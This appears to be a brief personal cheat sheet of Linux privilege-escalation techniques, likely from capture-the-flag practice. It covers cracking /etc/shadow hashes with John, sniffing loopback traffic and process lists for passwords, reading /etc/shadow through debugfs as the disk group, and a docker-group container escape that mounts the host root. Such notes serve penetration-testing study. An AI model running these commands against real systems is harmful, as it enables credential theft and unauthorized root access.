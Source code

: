 #### crack the hash

crack that hashes it the following files:
- /etc/passwd
- /etc/shadow

you ca use John with unshadow commands


#### inspect services footprint

maybe there is footprint of service that revels the credentials

```
watch -n 1 "ps -aux | grep pass"
```

capture traffic in and out of the loopback interface
```
sudo tcpdump -i lo -A | grep "pass"
```

#### Groups

to check membership 
```
id
```

Interesting Groups:
- disk - read ssh keys, hashes in shadow file...
```
# check where / mounted

dora@dora:/tmp$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.3G  55% /
udev                               947M     0  947M   0% /dev
tmpfs                              992M     0  992M   0% /dev/shm
. . .

# connect to mountand and cat /etc/shadow (for example)

dora@dora:/tmp$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cat /etc/shadow
```
- adm - can read log file (apache log files: /var/log/apache2)
- sudo
- Shadow
- Staff 
- fail2ban
- Video
- Root
- Docker
```
 # list images
docker image

# chose an image and run
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash 
```
- lxc/lxd
- Auth
